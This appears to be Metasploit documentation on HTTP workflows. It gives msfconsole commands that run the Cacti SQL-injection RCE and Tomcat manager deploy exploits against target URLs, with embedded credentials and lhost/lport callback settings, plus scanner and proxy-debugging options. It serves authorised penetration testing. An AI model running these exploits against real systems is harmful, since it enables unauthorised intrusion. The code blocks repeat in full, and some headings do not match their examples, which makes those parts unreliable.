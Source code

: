 ## HTTP Workflows
This document is generic advice for running and debugging HTTP based Metasploit modules, but it is best to use a Metasploit module which is specific to the application that you are pentesting. For instance:
```msf
msf6 > search tomcat http
```

### HTTP Examples
Auxiliary modules:
```
use auxiliary/scanner/http/title
run https://example.com
```

Specifying credentials and payload information:
```
use exploit/unix/http/cacti_filter_sqli_rce
run http://admin:pass@application.local/cacti/ lhost=tun0 lport=4444
run 'http://admin:pass with spaces@application.local/cacti/' lhost=tun0 lport=4444
```

Specifying alternative ports:
```
use auxiliary/scanner/http/title
run http://example.com HttpTrace=true verbose=true
```

### HTTP Debugging
You can log all HTTP requests and responses to the Metasploit console with the `HttpTrace` option, as well as enable additional verbose logging:
```
use auxiliary/scanner/http/title
run http://example.com HttpTrace=true verbose=true proxies=HTTP:127.0.0.1:8080
```

For instance:
```
use exploit/unix/http/cacti_filter_sqli_rce

Module options (exploit/unix/http/cacti_filter_sqli_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ... Omitted ...
*  PASSWORD   admin            no        Password to login with
   TARGETURI  /cacti/          yes       The URI of Cacti
*  USERNAME   user             yes       User to login with
   ... Omitted ...

check http://admin:user@application.local/cacti/

USERNAME and PASSWORD will be set to 'admin' and 'user'
```

To send all HTTP requests through a proxy, i.e. through Burp Suite:
```
use exploit/multi/http/tomcat_mgr_deploy
run http://admin:admin@192.168.123.6:8888 HttpTrace=true verbose=true lhost=192.168.123.1
```

`msf
msf6 > search tomcat http
`

`
use auxiliary/scanner/http/title
run https://example.com
`

`
use exploit/unix/http/cacti_filter_sqli_rce
run http://admin:pass@application.local/cacti/ lhost=tun0 lport=4444
run 'http://admin:pass with spaces@application.local/cacti/' lhost=tun0 lport=4444
`

`
use auxiliary/scanner/http/title
run http://example.com HttpTrace=true verbose=true
`

`
use auxiliary/scanner/http/title
run http://example.com HttpTrace=true verbose=true proxies=HTTP:127.0.0.1:8080
`

`
use exploit/unix/http/cacti_filter_sqli_rce

Module options (exploit/unix/http/cacti_filter_sqli_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ... Omitted ...
*  PASSWORD   admin            no        Password to login with
   TARGETURI  /cacti/          yes       The URI of Cacti
*  USERNAME   user             yes       User to login with
   ... Omitted ...

check http://admin:user@application.local/cacti/

USERNAME and PASSWORD will be set to 'admin' and 'user'
`

`
use exploit/multi/http/tomcat_mgr_deploy
run http://admin:admin@192.168.123.6:8888 HttpTrace=true verbose=true lhost=192.168.123.1
`

